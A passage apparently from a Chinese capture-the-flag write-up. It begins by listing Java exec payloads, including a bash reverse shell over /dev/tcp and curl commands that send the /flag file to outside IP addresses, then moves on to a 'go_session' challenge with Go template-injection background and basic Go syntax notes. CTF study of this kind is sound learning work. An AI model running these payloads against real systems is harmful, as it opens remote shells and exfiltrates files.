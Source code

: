 其他可行 payload

```plain
exec(newString[]{'bash'-c','sh -i>& /dev/tcp/ip/端口 0>&1'})
```

```plain
exec(new String[]{'curl','81.70.16.8:8888','-d','@/flag'})
exec(new String[]{'curl','http://47.113.202.32:23233','-T','/flag'})
```

参考：

[https://xz.aliyun.com/t/12568](https://xz.aliyun.com/t/12568)  
[http://www.syrr.cn/news/7874.html](http://www.syrr.cn/news/7874.html)

- - -

## go\_session

#### **一、知识前置**

**简单介绍：**

其他像 Python、PHP 环境下的模板注入一样，Go 语言下的模板注入也是因为未使用 Go 中渲染模板的预期方式来利用，用户传入的数据直接传递到了能够被模板执行的位置，导致了一系列的安全问题。

##### （一）go 语言基础

首先结合菜鸟教程先来学习一下 go 语言的基本语法，简单熟悉一下 go 的语言：

```plain
package main
import "fmt"
func main(){//需要注意的是 { 不能单独放在一行，所以以下代码在运行时会产生错误：
  fmt.Println("Hello,World!")
}
```

> -   第一行代码 package main 定义了包名。你必须在源文件中非注释的第一行指明这个文件属于哪个包，如：package main。package main 表示一个可独立执行的程序，每个 Go 应用程序都包含一个名为 main 的包。
>     
> -   下一行 import "fmt" 告诉 Go 编译器这个程序需要使用 fmt 包（的函数，或其他元素），fmt 包实现了格式化 IO（输入/输出）的函数。
>     
> -   下一行 func main() 是程序开始执行的函数。main 函数是每一个可执行程序所必须包含的，一般来说都是在启动后第一个执行的函数（如果有 init() 函数则会先执行该函数）。
> -   下一行 fmt.Println(...) 可以将字符串输出到控制台，并在最后自动增加换行字符 \\n。使用 fmt.Print("hello, world\\n") 可以得到相同的结果。
> -   Print 和 Println 这两个函数也支持使用变量，如：fmt.Println(arr)。如果没有特别指定，它们会以默认的打印格式将变量 arr 输出到控制台。

当标识符（包括常量、变量、类型、函数名、结构字段等等）以一个大写字母开头，如：Group1，那么使用这种形式的标识符的对象就可以被外部包的代码所使用（客户端程序需要先导入这个包），这被称为导出（像面向对象语言中的 public）；标识符如果以小写字母开头，则对包外是不可见的，但是他们在整个包的内部是可见并且可用的（像面向对象语言中的 protected）。

**Go 标记：**

Go 程序可以由多个标记组成，可以是关键字，标识符，常量，字符串，符号。如以下 GO 语句由 6 个标记组成：

**格式化字符串**

Go 语言中使用 **fmt.Sprintf** 或 **fmt.Printf** 格式化字符串并赋值给新串：

-   **Sprintf** 根据**格式化参数生成格式化的字符串**并返回该字符串。
-   **Printf** 根据**格式化参数生成格式化的字符串**并写入标准输出。
    